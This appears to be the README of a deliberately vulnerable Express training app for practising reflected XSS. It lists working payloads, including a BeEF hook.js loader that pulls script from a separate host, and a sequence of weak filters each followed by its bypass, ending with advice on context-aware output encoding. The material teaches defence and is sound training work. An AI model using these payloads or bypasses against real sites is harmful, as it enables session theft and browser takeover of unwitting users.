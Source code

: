 # Hands-on Express XSS Reflected

## Set up

### Deploy on Heroku

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/0xdbe/Hands-on-Express-XSS-Reflected)

### Install locally

* Install nodejs

* Install dependencies

```console
$ npm install
```

* run application

```console
$ npm start
```

* Make sure that TCP/3000 is allowed on your firewall

* Open http://localhost:3000


## Hack

Having fun with XSS attacks such as:


- Using ``<script>`` tag

````
<script>alert("test")</script>
````

- using ``<iframe>`` tag with ``javascript`` URI scheme

````
<iframe src="javascript:alert('XSS');">
<iframe src="javascript:alert(`XSS`)">
````

- Using DOM event

````
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
<svg onload=alert(1)>
````

## Malicious hack

- Steal cookie

````
<script>alert(document.cookie)</script>
````

- Insert hook.js script from beef

````
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();" />
````

## Fix

Try to fix vulnerability and prevent XSS Attacks

Business requirement: you must keep ``<`` and ``>``.

### Round 1

- Payload

````
<script>alert("test")</script>
````

- Fix: add filter in ``src/routes/result.js``

````
search = search.replace("<script>", "");
````

### Round 2

- Bypass

````
<sc<script>ript>alert("test")</script>
````

- Fix: add filter (but it's not recursive)

````
search = search.replace(/<script>/g, "");
````

### Round 3

- Bypass

````
<sc<script>riPt>alert("test")</script>
````

- Fix with a recursive Filter

````
while (search != (search = search.replace(/<script>/g, "")));
````

### Round 4

- Bypass

````
<sC<script>riPt>alert("test")</script>
````

- Recursive and case insentive filter

````
while (search != (search = search.replace(/<script>/i, "")));
````

### Round 5

- Bypass (Add a single space)

````
<sC<script>riPt >alert("test")</script>
````

- Fix: remplace special char by html entities

````
search = search.replace(/</g, "&lt;");
search = search.replace(/\>/g, "&gt;");
````

### Round 6

- Bypass using HTML decimal entity

````
<img src=x onerror="&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41">
````

- Bypass using JS encoding

````
<img src="x" onerror="\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074:\u0061\u006C\u0065\u0072\u0074('XSS')">
````

## Take away

solution: output encoding (aka escaping) but according a context (html, js, css, ...)
